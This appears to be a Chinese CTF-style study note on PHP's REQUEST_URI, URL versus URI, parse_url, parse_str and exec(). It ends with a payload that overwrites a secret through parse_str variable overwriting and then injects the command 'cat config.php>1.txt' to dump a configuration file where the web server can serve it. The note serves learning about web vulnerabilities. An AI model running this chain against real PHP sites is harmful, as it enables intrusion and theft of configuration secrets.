$_SERVER['REQUEST_URI'] 是 PHP 中的一个预定义变量，用于存储当前请求的 URI（Uniform Resource Identifier），即请求的完整 URL 路径。

##### URL和URI的区别？

- URL的作用

  URL一般是一个完整的链接，我们可以直接通过这个链接（URL）访问到一个网站，或者把这个URL复制到浏览器访问网站。

  使用URL时我们就是一个直接用户的角色，直接访问就可以。

- URI的作用

  URI并不是一个直接访问的链接，而是相对地址（相对于浏览器，URI等同于URL）。这种概念更多用于编程中，因为我们没必要每次编程都用绝对url来获取页面，这样还需要进行分割“http://xx/xxx”前面那一串，所以编程的时候直接request.getRequestURI就行了，如果重定向，需要用URL。

- URL继承了所有URI的内容，所以它比URI更加详细，但是URI是URL的父级。

##### PHP parse_url函数

语法：

```
parse_url(string $url, int $component = -1): mixed
```

参数：

```
$url：要解析的 URL 字符串。
$component（可选）：用于指定返回结果中包含的部分。可以是以下常量之一：
PHP_URL_SCHEME：返回协议（例如 http、https）。
PHP_URL_HOST：返回主机名。
PHP_URL_PORT：返回端口号。
PHP_URL_USER：返回用户名。
PHP_URL_PASS：返回密码。
PHP_URL_PATH：返回路径部分。
PHP_URL_QUERY：返回查询字符串部分。
PHP_URL_FRAGMENT：返回片段标识符（也称为锚点）部分。
默认值为 -1，表示返回包含所有部分的关联数组。
```

返回值：

如果解析成功，将返回一个关联数组，包含 URL 的各个组成部分。
如果解析失败，将返回 false。

##### PHP parse_str() 函数

- parse_str() 函数把查询字符串解析到变量中。
- 注：如果未设置 array 参数，由该函数设置的变量将覆盖已存在的同名变量。
- 注：php.ini 文件中的 magic_quotes_gpc 设置影响该函数的输出。如果已启用，那么在 parse_str() 解析之前，变量会被 addslashes() 转换。

##### PHP exec()函数

exec() 不输出结果，返回最后一行shell结果，所有结果可以保存到一个返回的数组里面。

#### payload

```
GET: /index.php?mode=0&config[secret]=r1one&secret=40234cce895a7b3058d4a4c241ae26d7
// MD5(adminr1one)：40234cce895a7b3058d4a4c241ae26d7
POST: cmd=cat config.php>1.txt
然后访问1.txt
这里关于secret的值，
可以单独设置Cookie:secret=40234cce895a7b3058d4a4c241ae26d7
也可以直接利用URL进行GET传参
因为，如果Cookie没有设置secret的值，secret为空，经过parse_str，进行变量覆盖，也会有值。
```
